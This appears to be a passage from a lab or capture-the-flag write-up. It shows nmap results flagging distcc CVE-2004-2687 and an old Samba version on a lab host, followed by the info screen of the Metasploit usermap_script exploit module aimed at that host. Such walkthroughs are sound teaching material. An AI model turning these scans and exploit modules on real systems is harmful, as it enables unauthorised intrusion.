 ```
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://nvd.nist.gov/vuln/detail/CVE-2004-2687
|_      https://distcc.github.io/security.html
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```  

The nmapAutomator scan revealed a lot of interesting information about the target, including a likely vulnerbility. Instead of using the identifed vulnerabilites, I instead opted to go after the smb service, which I noted was a vulnerable version.  

```
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
```  

After doing some quick research with searchsploit and exploit-db, I confirmed that the current smb version in use is vulnerable to a public exploit on metasploit. Below is the high level details on the multi/samba/usermap_script metasploit module.

```
msf6 exploit(multi/samba/usermap_script) > info

       Name: Samba "username map script" Command Execution
     Module: exploit/multi/samba/usermap_script
   Platform: Unix
       Arch: cmd
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2007-05-14

Provided by:
  jduck <jduck@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic

Check supported:
  No

Basic options:
  Name    Current Setting  Required  Description
  ----    ---------------  --------  -----------
  RHOSTS  10.10.10.3       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT   139              yes       The target port (TCP)
```